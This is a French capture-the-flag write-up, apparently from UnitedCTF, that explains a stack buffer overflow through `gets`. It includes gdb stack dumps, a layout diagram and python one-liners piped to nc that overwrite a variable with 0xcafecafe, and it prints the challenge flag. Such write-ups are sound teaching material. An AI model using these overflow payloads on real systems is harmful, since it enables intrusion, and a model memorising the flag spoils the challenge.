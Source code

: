 # Write up

La fonction `gets` est dépréciée car elle n'est pas sécuritaire, mais elle existe toujours. Dans la plupart des versions de son `manpage`, on retrouve la phrase "Never use this function.". Cette fonction vulnérable nous permet de dépasser le _buffer_ alloué pour notre nom afin de modifier la valeur d'une variable pour passer la vérification qui nous donnera accès au flag.

En ouvrant le programme dans `gdb`, on peut voir l'état de la _stack_, pour observer le positionnement des variables dans celle-ci. Ceci nous permettra de mieux savoir comment exploiter le dépassement de tampon.

Dans l'exemple suivant, j'ai entré "TESTEST" comme nom. Voici la _stack_ près l'appel à `gets`:

```
gef➤  x/12wx $rsp
0x7fffffffd9d0: 0x54534554      0x00545345      0xf7e29ba5      0x00007fff
0x7fffffffd9e0: 0x00000004      0x42060000      0xae147ae1      0x406f8147
0x7fffffffd9f0: 0xffffffff      0xffffffff      0x00000000      0x00000005
// emplacement de $rbp
```

Remarquez que l'espace restant après le byte NUL (0x00) qui reste de terminateur de chaîne de caractère contient une valeur qui semble être une addresse. Ceci est simplement dû au fait que la mémoire n'est pas toujours réinitialisée sauf si on le fait explicitement. Comme une _string_ est terminée par un byte NUL, ce qui se trouve après celui-ci ne sera pas considéré.

En utilisant la taille de chacun des types ainsi que les valeurs connues des variables, on peut faire une représentation visuelle de la pile comme ceci:

```
                | 16 bytes                         |
                |  8 bytes      |  8 bytes         |
                |  4    | 4     |   4    |  4      |
                |----------------------------------|
                |----------------------------------|
0x7fffffffd9d0  | qui                              |
                |----------------------------------|
0x7fffffffd9e0  | quand | ou    | comment          |
                |----------------------------------|
0x7fffffffd9f0  | quoi          |padding | pourquoi|
                |----------------------------------|
0x7fffffffda00  | <Base de la frame actuelle de pile> ($rbp)
```

Notez que les addresses données dans l'exemple vont varier pour chaque machine et chaque exécution. Ceci n'est pas un problème.

Comme on peut observer dans les instructions suivant l'appel à `gets`, notre objectif est que la variable située à $rbp-4, (`pourquoi`, qui vaut actuellement 5) vale 0xcafecafe.

```
0x5555555551b7 <degoutte+78>    mov    eax, DWORD PTR [rbp-0x4]
0x5555555551ba <degoutte+81>    cmp    eax, 0xcafecafe
```

Il faut donc que l'on envoie un payload de 48 bytes, dont les 4 dernières sont 0xcafecafe. Il existe plusieurs manières d'écrire des bytes `raw` via la ligne de commandes. Nous avons utilisé `python` pour le faire.

```
python2 -c 'print("A"*44 + "\xfe\xca\xfe\xca")' | nc challenges.unitedctf.ca 17000

ou bien

python3 -c 'import sys; sys.stdout.buffer.write(b"A"*44 + b"\xfe\xca\xfe\xca" + b"\n")' | nc localhost 17000
```

Et on obtient le flag FLAG-Buff3r_0verflow3d_nh6qAgs0Yw4 !

